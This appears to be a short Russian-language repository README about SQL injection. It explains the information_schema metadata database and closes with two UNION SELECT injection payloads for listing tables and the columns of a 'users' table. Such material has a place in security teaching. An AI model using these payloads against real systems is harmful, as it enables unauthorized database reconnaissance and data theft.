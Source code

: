 SQL injection

Этот репозиторий содержит практические примеры использования information_schema для обнаружения структуры базы данных во время SQL-инъекций.

📂 Что такое information_schema?
information_schema — это встроенная мета-база данных, которая содержит информацию о:

всех таблицах (information_schema.tables)

всех столбцах (information_schema.columns)

типах данных и других свойствах

📌 Полезные запросы

📄 Получить все таблицы в текущей базе данных:

SELECT table_name 
FROM information_schema.tables 
WHERE table_schema = 'имя_бд';

📄 Получить все столбцы из таблицы:

SELECT column_name, data_type 
FROM information_schema.columns 
WHERE table_name = 'имя_таблицы';

🛠 Применение в SQL-инъекциях
Используя UNION SELECT, можно вытянуть таблицы и столбцы даже без знания структуры базы данных:

' UNION SELECT table_name, NULL FROM information_schema.tables--

' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--

